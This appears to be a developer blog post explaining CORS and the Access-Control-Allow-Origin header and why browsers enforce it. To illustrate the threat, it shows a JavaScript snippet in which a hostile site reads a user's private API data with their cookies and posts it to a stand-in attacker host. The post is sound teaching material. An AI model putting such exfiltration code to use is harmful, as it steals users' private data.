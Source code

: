 ```yaml
---
title: "CORS: Access-Control-Allow-Origin whut?!"
draft: false
date: 2023-11-21T17:45:00.000Z
date_updated: 2023-11-21T17:45:00.000Z
featured_image: /tanja-cotoaga-hvcXgf9rYKc-unsplash.jpg
page_bg: linear-gradient(to right,#c0a3c7,#3a60d3)
excerpt: CORS can seem like a super tricky and complex topic to wrap your head around, but in reality, it's not as hard as it appears.
---
```


## A Summary

CORS restrictions are a way of telling a user's browser that data should be protected from code running on a website, and asking the browser to place restrictions on that code to keep the data safe.

## Understanding the problem

_This section will explain the problem that CORS restrictions were invented to resolve. Feel free to skip this if you're happy that you understand why CORS is important._

Imagine you have a website, let's call it `example.com`. You want to load some data from your API. How would you do it?

You might decide to do something like this.

```js
const data = await fetch("https://example.com/api/data");
```

This is great. Simple, and it works. Now let's imagine you add authentication. Let's say you implement some kind of API key. What would your fetch look like now?

```js
const myToken = "5Up3Rs3cr374PiK3Y";
const data = await fetch("https://example.com/api/data", {
  headers: {
    Authorization: "Bearer " + myToken,
  },
});
```

Cool. That works nicely. But then I decide to set up some more complex authentication and everyone has their own token. Maybe it's just easier to store that as a cookie? That's going to make it a lot easier, because now I can do this again:

```js
const data = await fetch("https://example.com/api/data");
```

My browser _automatically knows_ to attach cookies from `example.com` to every request.

Great, so now I'm cooking with gas, I can fetch data from my API super easily.

But now I decide that for some reason I need to move my API to a different server, and that server is going to be hosted at `api.example`.

Now I can update my fetch to

```js
const data = await fetch("https://api.example/api/data");
```

All good, users have to sign in again because the cookies from `example.com` don't get sent to `api.example`, but otherwise, everything is going smoothly.
Except wait, now someone has set up a site called `stolen-content.example`. I check their code, and they're just using my back-end for their own purposes!

_How to protect your users from credential theft will be the topic of another post in future, but for now, please just assume that your backend is configured properly to stop your users' authentication cookies leaking._

But it gets worse, I find out that they're requesting data which is private for my users!:

```js
const data = await fetch("https://api.example/api/my_users_secret_data");
```

And my server is happily sending the data, because the user is sending a credentialled request!

Oh no, it's even worse than I thought... look at the next line:

```js
const data = await fetch("https://api.example/api/my_users_secret_data");
const json = await data.json();
fetch("https://stolen_content.example/save_secret_data", {
  method: POST,
  body: JSON.stringify(json),
});
```

They're saving our users' data to their own database! How can we stop them?!

## CORS

Browser developers realised that the above problem is something that it's difficult for an application developer to stop. The browser is issuing a request with a legitimate cookie attached to it. How could the application know that it's being done with malicious intent? The real underlying problem here is that the end user, who is just trying to browse the internet is executing code on their browser that they don't understand, and that could be written by anyone.

So how do we protect users from the code that they're running? Enter CORS. Browser developers told application developers that they will implement some logic that application developers can rely on. The application developer can tell the browser where they want to allow their requests to come from. This is the `Access-Control-Allow-Origin` header.

Here are some examples:

```
Access-Control-Allow-Origin: *
// This data can be requested by anyone
Access-Control-Allow-Origin: https://example.com
// This data should only be requested by people browsing https://example.com
```

Now, if a user is on `stolen-content.example` and their browser requests data from my API, then their request will fail with a CORS error, and the code to steal the users' secret data will fail.

_Note that all of this assumes that the user's browser properly respects the CORS header, and that we don't have to worry about the user using a compromised browser, and nor do we have to worry about the user trying to steal their own information. CORS only solves the problem of untrusted developers being allowed to run code on your computer through your browser, potentially with access to secret information._

## Further reading

CORS actually has some other sensible protections (for example, you can't use `Access-Control-Allow-Origin: *` with a credentialled request, you can tell the browser not to share headers or not to allow specific methods, etc.). I'd recommend you start with [the MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin).
